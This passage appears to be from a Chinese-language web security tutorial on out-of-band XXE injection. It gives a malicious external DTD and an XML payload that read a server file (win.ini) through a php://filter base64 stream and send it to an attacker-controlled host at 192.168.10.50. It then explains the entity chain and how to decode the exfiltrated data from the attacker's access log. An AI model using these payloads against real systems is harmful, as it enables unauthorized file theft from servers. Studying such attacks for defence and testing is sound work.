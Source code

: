 payload：

```xml
<!ENTITY % all

"<!ENTITY % send SYSTEM 'http://192.168.10.50/?data=%file;'>"

\>

%all;

然后构建攻击payload。

payload：

<!DOCTYPE updateProfile [

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">

<!ENTITY % dtd SYSTEM "http://192.168.10.50/evil.dtd">

%dtd;

%send;

]>
```

![img](https://s2.loli.net/2023/03/13/hX7DK3uqQdUwC9Y.jpg) 

### 4.2.4.**查看访问日志**

这里的查看访问日志，是在攻击者的服务器上查看，不要搞错。可以通过下面的图片看到，我们成功获取到日志。

![img](https://s2.loli.net/2023/03/13/eFEZuI7XQmra1oA.jpg) 

### 4.2.5.**查看日志内容**

由于是base64加密的，所以我们还需要对其进行解密，通过解密可以看到，日志的内容和Windows中的win.ini的内容是一样的。

![img](https://s2.loli.net/2023/03/13/fsvVKZNHXWMcJzu.jpg) 

### 4.2.6.**调用解释**

这里需要结合payload进行理解，不然单单看解释有点难理解。

在构建的payload中会发现，可以看到挺难理解的，我们根据构建的payload进行解释一下，首先%dtd去调用vps上的evil.dtd文件，这个有点类似于将evil.dtd文件包含进来的感觉，然后调用evil.dtd文件中的%all，%all再去调用%file，而%file就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到%send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 %)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，成功解决外带的情况。

## 4.3.**基于报错案例**
